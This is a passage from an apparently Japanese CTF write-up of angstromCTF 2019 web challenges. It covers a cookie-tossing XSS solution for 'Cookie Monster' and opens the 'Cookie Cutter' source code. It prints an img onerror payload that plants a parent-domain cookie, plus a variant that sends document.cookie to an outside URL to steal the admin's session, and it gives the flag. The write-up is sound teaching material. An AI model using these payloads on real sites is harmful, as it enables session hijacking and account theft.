 ```javascript
	res.send("<link rel='stylesheet' type='text/css' href='style.css'>flag: "+(res.locals.flag?flag:"currently unavailable"))
})

app.get('/', (req, res) => {
	res.send("<link rel='stylesheet' type='text/css' href='style.css'>look this site is under construction if you have any complaints send them <a href='complain'>here</a>\n<!-- debug: /cookies /getflag -->")
})


app.use((err, req, res, next) => {
	res.status(500).send('error')
})

app.listen(3000)
```

admin の Cookie を入手すればよいようです。

一見脆弱性がないように見えますが、`/cookies` では Cookie の中身がエスケープされずに出力されているため、もし任意の値をセットできれば XSS ができそうです。…が、このアプリケーション内にはどこにも Cookie を操作できる箇所がありません。

ここで、Cookie の Domain 属性であるドメインを指定すると、そのサブドメインにおいても送信される仕様 (例えば `domain=example.com` では `sub.example.com` でも送信される) を利用します。同じ `*.2019.chall.actf.co` 上にある DOMValidator で `<img src=x onerror="document.cookie='a=%3Cscript%3Ealert(1)%3C%2Fscript%3E;domain=2019.chall.actf.co;path=/cookies';location='https://cookiemonster.2019.chall.actf.co/cookies'">` を投稿すると、`domain=2019.chall.actf.co` という属性を付加した上で Cookie を発行することができ、`/cookies` で `alert` を発火させることができました。

`alert(1)` を `(new Image).src="http://(URL)?"+document.cookie` に置換して DOMValidator に投稿し、このパーマリンクをこの問題の `/complain` に投稿することで、`admin_id` を手に入れることができました。

`admin_id` を Cookie にセットし、`/getflag` にアクセスするとフラグが得られました。

```
actf{defund_is_the_real_cookie_monster}
```

### Cookie Cutter (200)
> I stumbled upon this very interesting site lately while looking for cookie recipes, which claims to have a flag. However, the admin doesn't seem to be available and the site looks secure - can you help me out?

以下のようなソースコードが与えられました。

```javascript
const cookieParser = require('cookie-parser');
const express = require('express');
const crypto = require('crypto');
const jwt = require('jsonwebtoken');

const flag = "[redacted]";

let secrets = [];

const app = express()
app.use('/style.css', express.static('style.css'));
app.use('/favicon.ico', express.static('favicon.ico'));
app.use('/rick.png', express.static('rick.png'));
app.use(cookieParser())

app.use('/admin',(req, res, next)=>{
	res.locals.rolled = true;
	next();
})

app.use((req, res, next) => {
	let cookie = req.cookies?req.cookies.session:"";
	res.locals.flag = false;
	try {
```